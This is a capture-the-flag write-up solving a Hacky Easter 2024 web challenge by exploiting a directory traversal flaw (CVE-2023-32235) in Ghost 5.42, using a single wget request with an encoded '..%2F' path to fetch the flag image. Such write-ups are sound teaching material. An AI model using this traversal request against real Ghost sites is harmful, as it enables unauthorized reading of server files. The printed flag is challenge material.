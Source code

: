 
### Challenge description
Ghostbusters go Egg Hunting!
Open their webpage and find the `egg.png`.
[Egg Busters web site](http://ch.hackyeaster.com:2407/)

### Solution
Browsing around the site there are some fake blog posts and some fake images. None of these are the flags.

Since there is so much focus on the framework Ghost, we do some googling and figure out there are some critical vulnerabilities in the Ghost framework

https://www.cvedetails.com/vendor/20613/Ghost.html

We figure out the ghost version in the received JS/HTML

<meta name="generator" content="Ghost 5.42" />

https://www.cvedetails.com/cve/CVE-2023-32235/

Directory traversal before 5.42.1 sounds pretty relevant.

We run the following command and get the flag

```
wget http://ch.hackyeaster.com:2407/assets/built%2F..%2F..%2F/egg.png

zbarimg egg.png
```

he2024{p4th_tr4v3rs4ls_st1ll_h4pp3ns}